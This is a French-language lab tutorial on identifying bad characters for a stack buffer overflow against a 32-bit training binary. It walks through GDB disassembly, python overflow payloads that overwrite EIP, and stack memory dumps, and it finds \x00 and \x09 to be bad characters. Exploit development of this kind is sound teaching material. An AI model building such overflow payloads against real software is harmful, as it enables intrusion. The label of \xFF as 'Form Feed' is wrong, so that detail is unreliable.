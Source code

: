 # Identification des Mauvais Caractères

***

Auparavant, dans les systèmes d’exploitation de type UNIX, les binaires commençaient par deux octets contenant un **« nombre magique » (magic number)** qui détermine le type de fichier.\
Au début, cela servait à identifier les fichiers objets pour différentes plateformes.\
Progressivement, ce concept a été transféré à d’autres fichiers, et maintenant presque tous les fichiers contiennent un nombre magique.

De tels caractères réservés existent également dans les applications, mais ils n’apparaissent pas toujours et ne sont pas toujours les mêmes.\
Ces caractères réservés, aussi appelés **mauvais caractères (bad characters)**, peuvent varier, mais souvent nous verrons des caractères comme ceux-ci :

```
\x00 - Octet nul
\x0A - Saut de ligne
\x0D - Retour chariot
\xFF - Form Feed
```

Ici, nous utilisons la liste de caractères suivante pour découvrir tous les caractères que nous devons considérer et éviter lors de la génération de notre shellcode.

***

### <mark style="color:red;">**Liste de Caractères**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot_1@htb[/htb]$ CHARS="\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
{% endcode %}

Pour calculer le nombre d’octets dans notre variable `CHARS`, nous pouvons utiliser **bash** en remplaçant `\x` par un espace, puis utiliser `wc` pour compter les mots.

***

### <mark style="color:green;">**Calculer la longueur de CHARS**</mark>

```bash
mrroboteLiot_1@htb[/htb]$ echo $CHARS | sed 's/\\x/ /g' | wc -w
```

Résultat :

```
256
```

Cette chaîne fait **256 octets**. Nous devons donc recalculer notre buffer.

***

### <mark style="color:red;">**Notes**</mark>

```
Buffer  = "\x55" * (1040 - 256 - 4) = 780
CHARS   = "\x00\x01\x02\x03\x04\x05...<SNIP>...\xfd\xfe\xff"
EIP     = "\x66" * 4
```

***

Maintenant, regardons la fonction `main` complète.\
Si nous l’exécutons maintenant, le programme va crasher sans nous donner la possibilité de suivre ce qui se passe en mémoire.\
Donc, nous allons définir un **breakpoint** à la fonction correspondante afin que l’exécution s’arrête à ce point, et nous puissions analyser le contenu de la mémoire.

***

### <mark style="color:red;">**GDB**</mark>

Désassemblage de `main` :

```nasm
(gdb) disas main
Dump of assembler code for function main:
   0x56555582 <+0>:    lea    ecx,[esp+0x4]
   0x56555586 <+4>:    and    esp,0xfffffff0
   0x56555589 <+7>:    push   DWORD PTR [ecx-0x4]
   0x5655558c <+10>:   push   ebp
   0x5655558d <+11>:   mov    ebp,esp
   0x5655558f <+13>:   push   ebx
   0x56555590 <+14>:   push   ecx
   0x56555591 <+15>:   call   0x56555450 <__x86.get_pc_thunk.bx>
   0x56555596 <+20>:   add    ebx,0x1a3e
   0x5655559c <+26>:   mov    eax,ecx
   0x5655559e <+28>:   mov    eax,DWORD PTR [eax+0x4]
   0x565555a1 <+31>:   add    eax,0x4
   0x565555a4 <+34>:   mov    eax,DWORD PTR [eax]
   0x565555a6 <+36>:   sub    esp,0xc
   0x565555a9 <+39>:   push   eax
   0x565555aa <+40>:   call   0x5655554d <bowfunc>   # <---- Fonction bowfunc
   ...
```

***

### <mark style="color:red;">**Définir le breakpoint**</mark>

```gdb
(gdb) break bowfunc
Breakpoint 1 at 0x56555551
```

***

### <mark style="color:red;">**Exécuter avec CHARS**</mark>

{% code fullWidth="true" %}
```gdb
(gdb) run $(python -c 'print "\x55" * (1040 - 256 - 4) + "\x00\x01\x02\x03\x04...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
```
{% endcode %}

⚠️ Avertissement bash :

```
/bin/bash: warning: command substitution: ignored null byte in input
```

***

### <mark style="color:red;">**Analyse de la pile**</mark>

On inspecte la mémoire :

```gdb
(gdb) x/2000xb $esp+500

0xffffd28a:	0xbb	0x69	0x36	0x38	0x36	0x00	0x00	0x00
0xffffd292:	0x00	0x00	0x00	0x00	0x00	0x00	0x00	0x00
0xffffd29a:	0x00	0x2f	0x68	0x6f	0x6d	0x65	0x2f	0x73
0xffffd2a2:	0x74	0x75	0x64	0x65	0x6e	0x74	0x2f	0x62
0xffffd2aa:	0x6f	0x77	0x2f	0x62	0x6f	0x77	0x33	0x32
0xffffd2b2:	0x00    0x55	0x55	0x55	0x55	0x55	0x55	0x55
				 # |---> "\x55"s begin

0xffffd2ba: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd2c2: 0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
<SNIP>
```

```
<SNIP>
0xffffd5aa:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5b2:	0x55	0x55	0x55	0x55	0x55	0x55	0x55	0x55
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
                                                        # |---> CHARS begin

0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
0xffffd5d2:	0x15	0x16	0x17	0x18	0x19	0x1a	0x1b	0x1c
<SNIP>
```

On observe que le buffer commence bien avec nos `\x55`, puis qu’à l’endroit prévu pour `CHARS`, le premier octet `\x00` a été ignoré → donc la séquence commence par `\x01`.

Cela confirme que **\x00 est un mauvais caractère**.\
Il doit être retiré de la liste, et la taille du buffer doit être ajustée.

***

### <mark style="color:red;">**Exemple de correction**</mark>

```
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 255 - 4) = 781

# "\x00" removed: 256 - 1 = 255 bytes
 CHARS = "\x01\x02\x03...<SNIP>...\xfd\xfe\xff"
 
   EIP = "\x66" * 4
```

Ensuite, on relance et on répète le processus.\
Chaque fois qu’on trouve un caractère problématique (comme ici `\x00` puis `\x09`, etc.), on le retire de la liste et on adapte la taille du buffer.

⚠️ Ce processus doit être répété **jusqu’à ce que tous les mauvais caractères soient identifiés et éliminés**.

{% code fullWidth="true" %}
```
(gdb) run $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 255 - 4) + "\x01\x02\x03\x04\x05...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```
{% endcode %}

***

{% code fullWidth="true" %}
```
(gdb) x/2000xb $esp+550

<SNIP>
0xffffd5ba:	0x55	0x55	0x55	0x55	0x55	0x01	0x02	0x03
0xffffd5c2:	0x04	0x05	0x06	0x07	0x08	0x00	0x0b	0x0c
                                                        # |----| <- "\x09" expected

0xffffd5ca:	0x0d	0x0e	0x0f	0x10	0x11	0x12	0x13	0x14
<SNIP>
```
{% endcode %}

{% code fullWidth="true" %}
```
# Substract the number of removed characters
Buffer = "\x55" * (1040 - 254 - 4) = 782	

# "\x00" & "\x09" removed: 256 - 2 = 254 bytes
 CHARS = "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfd\xfe\xff" 
 
   EIP = "\x66" * 4
```
{% endcode %}

<mark style="color:green;">Send CHARS - Without "\x00" & "\x09"</mark>

{% code fullWidth="true" %}
```sh
(gdb) run $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 254 - 4) + "\x01\x02\x03\x04\x05\x06\x07\x08\x0a\x0b...<SNIP>...\xfc\xfd\xfe\xff" + "\x66" * 4')
Breakpoint 1, 0x56555551 in bowfunc ()
```
{% endcode %}
